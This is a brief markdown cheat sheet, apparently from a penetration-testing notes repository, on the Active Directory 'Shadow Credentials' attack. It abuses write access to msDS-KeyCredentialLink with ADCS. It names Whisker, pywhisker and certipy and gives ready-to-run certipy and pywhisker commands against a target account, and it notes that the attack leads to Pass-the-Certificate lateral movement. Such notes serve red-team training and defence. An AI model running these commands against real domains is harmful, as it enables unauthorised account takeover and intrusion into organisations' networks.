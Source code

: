 # can change msDS-KeyCredentialLink (GenericWrite) + ADCS 

## AKA Shadow Credentials

## Tools: Whisker.exe , pywhisker.py , certipy

#### 1) certipy

    certipy shadow auto -u 'USER@DOMAIN' -p PASSWORD -account 'TARGET_ACCOUNT'

#### 2) pywhisker.py

    pywhisker.py -d "FQDN_DOMAIN" -u "user1" -p"CERTIFICATE_PASSWORD" --target "TARGET_SAMNAME" --action "list"

### With this attack, we can perform Pass-the-Certificate for Lateral Movement
